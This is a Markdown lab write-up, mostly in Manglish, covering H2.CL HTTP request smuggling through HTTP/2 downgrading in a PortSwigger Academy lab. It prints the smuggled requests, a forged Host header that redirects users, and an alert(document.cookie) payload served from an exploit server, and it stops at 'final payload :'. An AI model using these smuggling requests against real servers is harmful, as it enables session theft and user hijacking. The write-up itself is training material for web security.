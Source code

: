 ### HTTP/2 downgrading :
-->HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request
-->Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1
-->This practice is a prerequisite for many of the attacks covered in this section.
-->pala serversum(reverse proxy) ee reethi use chyunun.back-end in http/1.1 aayit mathrame request edukan patu.so servers in http/2 ile request convert chyth http/1.1 ielk request matanam enit back-end response tharumbol veendum ath reverse chyth http/2 aaki client in kodukanam
-->As we already know HTTP/2 requests don't have to specify their length explicitly in a header. But during downgrading, this means front-end servers often add an HTTP/1 `Content-Length` header

#### #1  H2.CL vulnerabilities :
                      Lab-11(H2.CL request smuggling)
-->here the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.
-->ivide content-lenth support chyum
-->ivide namal enthan chyunathenal ee lab ile server namude request back-end ilek ayakunath in mumb http/1.1 ilek aakunu.so namal oru redirection vulnerability kandethum enit namude exploit server ilek user ine ayakum
-->so lab open chyuka enit GET /   request eduth repeater il iduka
-->repeater il poi Request Attributes eduth HTTP/2 kodukuk 
-->mukalile Repeater il poi content-lenth untick chyuka.athupole Allow HTTP/2 ALPN override tick chyuka enale namuk correct aayi repeater il send chyanoke patu
-->ini namal ee GET /  request il test chyth nokam smuggling aakunundon :

                POST / HTTP/2
				Host: 0a4400eb047edba9c0d4a8f3006600c7.web-security-academy.net
				Content-Length: 0
				
				josu

-->ee request send adichondirikuka.apol namuk kanam 404 NOT FOUND enna response. athinartham back-end in ee josu enna sathanam process chyan patunila. athinatham namuk ee josu enna sathanam smuggle chyan patunund ennan.so namuk vere enth venemengilum ini smuggle chyam
-->ee GET /  request inte normal response il namuk kanam oru /resourses enna oru path. athayath html tag il src= , href= il oke /resources/js   or /resources/labheader..  enoke aayit
-->so namuk ee oru path ilek oru GET request smuggle chyth nokam :

                    POST / HTTP/2
					Host: 0a4400eb047edba9c0d4a8f3006600c7.web-security-academy.net
					Content-Length: 0
					
					GET /resources HTTP/1.1
					host: josu.com
					content-lenth: 5
					
					x=1
-->ith send adichondiriumbol namuk response kanam 
HTTP/2 302 Found
Location: https://josu.com/resources/
Content-Length: 0

-->athayath josu.com enna fake sthalathek redirect aakunund
-->so namude exploit server ilek pokuka enit athile file path /resources ennakuka.enit exploit server inte lab id copy chyuka.body il alert(document.cookie) iduka
-->enit josu.com il paste chyuka.enit send adichondirikuka.ivide lab il user oro 10 second koodnthorum visit chyum apol ee xss trigger aakum.final payload :
